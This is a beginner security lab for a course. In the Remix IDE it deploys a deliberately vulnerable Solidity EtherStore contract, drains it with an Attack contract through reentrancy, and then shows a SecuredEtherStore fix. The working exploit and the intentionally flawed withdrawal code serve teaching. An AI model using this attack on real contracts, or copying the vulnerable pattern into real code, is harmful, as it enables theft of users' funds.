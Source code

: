 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code into it:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)
2. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.  
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
3. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)  
    You should see two new icons in the leftmost pane: one, the solidity compiler ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png), looks like an "s", and the other, deploy and run ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), is the Ethereum symbol with an arrow to the right.  
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
4. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
5. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
6. Click the `Compile EtherStore.sol` button ![compile-etherstore-button.png](screenshots/compile-etherstore-button.png) and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (orange) warnings.  
    ![compile-etherstore.png](screenshots/compile-etherstore.png)  
7. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
8. Click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
9. A smart contract, **EtherStore** will be deployed to the blockchain. Click the arrow on the left of it to reveal its functions.  
    ![etherstore-deployed.png](screenshots/etherstore-deployed.png)  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
10. In the value box, type `10`, and in the dropdown box next to it, select `ether`.  
    ![value-box-with-ether.png](screenshots/value-box-with-ether.png)
11. Click the `depositFunds` function button ![deposit-funds-button.png](screenshots/deposit-funds-button.png) under the `EtherStore` deployed contract.  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
12. Notice that the selected account has been debited `10 ether` (as well as some gas fees for contract deployment and the deposit transaction), leaving `89.999... ether` from the original `100 ether`.  
    ![less-10-ether.png](screenshots/less-10-ether.png)
13. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "./EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
14. In `Attack.sol`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
15. Click the clipboard icon ![clipboard-icon.png](screenshots/clipboard-icon.png) to the right of the deployed `EtherStore` contract to copy its address; we will need it to tell the `Attack` contract what to attack.  
    ![clipboard-surroundings.png](screenshots/clipboard-surroundings.png)
16. Choose a new account with 100 ether from the dropdown to act as the attacking account.
16. Repeat the previous compilation and deployment steps for the `Attack` contract, but just prior to deploying, we'll need to supply the `EtherStore` contract's address.
17. Paste the previously-copied `EtherStore` address into the box just to the right of the orange `Deploy` button.  
    ![address-pasted.png](screenshots/address-pasted.png)  
18. Deploy the `Attack` contract.
19. Enter 1 ether in the value box where we previously entered 10 ether.
20. Click the arrow to reveal the `Attack` contract's functions, and then click the `attackEtherStore` function button.
21. Now click the `collectEther` function button.
22. Observe that the account has been credited 10 ether (bringing it to 108.999...), when it should have only been possible for the deposited 1 ether to be withdrawn.
23. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```
24. Repeating the procedures above but using the new `SecuredEtherStore` contract will result in the attack failing; give it a try!

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
